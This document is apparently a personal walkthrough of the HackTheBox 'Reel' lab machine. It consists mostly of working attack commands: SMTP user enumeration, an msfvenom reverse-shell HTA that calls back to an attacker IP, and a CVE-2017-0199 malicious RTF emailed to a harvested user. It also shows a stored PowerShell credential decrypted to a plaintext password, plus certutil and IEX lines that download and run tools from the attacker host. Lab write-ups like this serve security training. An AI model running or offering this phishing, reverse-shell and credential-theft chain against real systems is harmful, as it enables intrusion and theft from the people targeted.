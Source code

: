 export IP=10.129.1.151

### FTP
```bash
ftp $IP
```
exploit smtp with RTF object from readme.txt

`docx2txt AppLocker.docx`

### Get all ports
```bash
docker run -it --rm --name rustscan rustscan/rustscan:1.10.0 $IP
```

Open 10.129.1.151:22
Open 10.129.1.151:21
Open 10.129.1.151:25

### SMTP
##### SMTP user enumeration using RCPT and other commands
```bash
smtp-user-enum -M RCPT -U /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -t $IP
smtp-user-enum -M VRFY -U /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -t $IP
smtp-user-enum -M EXPN -U /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -t $IP

smtp-user-enum -M EXPN -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -t $IP
smtp-user-enum -M VRFY -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -t $IP
smtp-user-enum -M RCPT -U /usr/share/wordlists/seclists/Usernames/Names/names.txt -t $IP
```

Try User Enumeration using "RCPT TO". Replace <TARGET-DOMAIN> with the target's domain name:
```bash
hydra smtp-enum://10.129.1.151:25/rcpt -L "/usr/share/seclists/Usernames/top-usernames-shortlist.txt" -o "/home/alvin/Documents/OSCP-PWK/HackTheBox/Windows/Active Directory/Reel/results/10.129.1.151/scans/tcp25/tcp_25_smtp_user-enum_hydra_rcpt.txt" -p $IP
```

##### Nmap script
```bash
nmap --script smtp-enum-users $IP -v -p 25
```

PORT   STATE SERVICE
25/tcp open  smtp
| smtp-enum-users: 
|   RCPT, root
|   RCPT, admin
|   RCPT, administrator
|   RCPT, webadmin
|   RCPT, sysadmin
|   RCPT, netadmin
|   RCPT, guest
|   RCPT, user
|   RCPT, web
|_  RCPT, test

```bash
nmap -p 25 --script smtp-brute $IP -Pn
```

### Back to the ftp documents as above failed
```bash
❯ mv Windows\ Event\ Forwarding.docx WEF.docx
                                                                                                                                                                                            
❯ docx2txt WEF.docx
Failed to extract required information from <WEF.docx>!
                                                                                                                                                                                            
❯ exiftool WEF.docx
```

nico@megabank.com

### RTF cve
##### without metasploit
0) Prepare the HTA payload with msfvenom
`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.13 LPORT=443 -f hta-psh > /tmp/alvin.hta` <- x86 make it harder to think about it.
1) Generate malicious RTF file
`python2 cve-2017-0199_toolkit.py -M gen -t RTF -w invoice.rtf -u http://10.10.16.13/alvin.hta`
2) serve it
```bash
cd /tmp 
python3 -m http.server 80
```
3) Start toolkit in exploit mode to deliver local payload <- This won't work since it need the target path to be executed.
```bash XX
python cve-2017-0199_toolkit.py -M exp -t RTF -e http://10.10.16.13/alvin.hta -l /tmp/alvin.hta
```
4) sendEmail
```bash
sendEmail -f foo@megabank.com -t nico@megabank.com -u "U hello" -m "M goodbye" -a invoice.rtf -s $IP -v
``` 

##### metasploit method 1 office_word_hta
##### metasploit method 2 meterpreter with Empire (offical writeup)

# Foothold
c:\Users\nico\Desktop>type cred.xml
type cred.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
https://hashes.com/en/tools/hash_identifier
https://hashcat.net/wiki/doku.php?id=example_hashes

```bash
hashcat -m 12900 --force -a 0 tom.hash /usr/share/wordlists/rockyou.txt
```

a little offset invest
01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692


000000000000000000000000000000000000000000000000000000038421854118412625768408160477112384218541184126257684081604771129b6258eb22fc8b9d08e04e6450f72b98725d7d4fcad6fb6aec4ac2a79d0c6ff738421854118412625768408160477112 

### PSCredential is the better way to do it
```c:\ rev
powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *"
```
UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB

### RunAs or ssh
`ssh tom@$IP`

tom@REEL C:\Users\tom\Desktop\AD Audit>type note.txt
Surprisingly no AD attack paths from user to Domain Admin (using default shortest path query).
Maybe we should re-run Cypher query against other groups we've created.   

### Below follow the 0xdf writeup and ippsec video
```
certutil -urlcache -f http://10.10.16.13/SharpHound.exe SharpHound.exe 
certutil -urlcache -f http://10.10.16.13/SharpHound.exe SharpHound.ps1

PS>
IEX(New-Object Net.Webclient).downloadstring("http://10.10.16.13/SharpHound.ps1") Invoke-BloodHound -CollectionMethod All
```
BloodHound not working.

I'll just go with powerview.

certutil -urlcache -f http://10.10.16.13/powerview.ps1 powerview.ps1